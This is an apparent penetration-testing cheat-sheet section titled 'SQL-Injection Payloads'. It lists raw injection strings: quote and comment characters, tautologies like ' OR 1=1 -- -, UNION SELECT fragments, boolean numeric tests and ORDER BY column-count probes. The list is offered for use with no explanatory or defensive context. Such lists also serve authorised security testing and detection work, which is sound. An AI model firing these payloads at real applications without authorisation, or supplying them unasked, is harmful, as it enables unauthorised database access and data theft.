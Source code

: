 
## 3- SQL-Injection Payloads
     
     '
     ''
     `
     ``
     ,
     "
     ""
     /
     //
     \
     \\
     ;
     ' or "
     -- or # 
     ' OR '1
     ' OR 1 -- -
     " OR "" = "
     " OR 1 = 1 -- -
     ' OR '' = '
     '='
     'LIKE'
     '=0--+
      OR 1=1
     ' OR 'x'='x
     ' AND id IS NULL; --
     '''''''''''''UNION SELECT '2
     %00
     /*…*/ 
     +		addition, concatenate (or space in url)
     ||		(double pipe) concatenate
     %		wildcard attribute indicator

     @variable	local variable
     @@variable	global variable


     # Numeric
     AND 1
     AND 0
     AND true
     AND false
     1-false
     1-true
     1*56
     -2


     1' ORDER BY 1--+
     1' ORDER BY 2--+
     1' ORDER BY 3--+
